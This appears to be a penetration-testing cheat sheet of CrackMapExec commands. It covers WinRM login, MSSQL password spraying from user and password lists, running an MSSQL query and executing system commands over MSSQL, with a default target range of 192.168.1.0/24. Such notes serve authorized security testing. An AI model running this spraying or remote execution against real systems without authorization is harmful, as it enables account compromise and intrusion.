 ## cme - winrm-auth
#platform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
cme winrm <ip> -u <user> -p <password>
```

## cme - mssql password spray
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
cme mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## cme - mssql execute query
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## cme - mssql execute command
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

= ip: 192.168.1.0/24
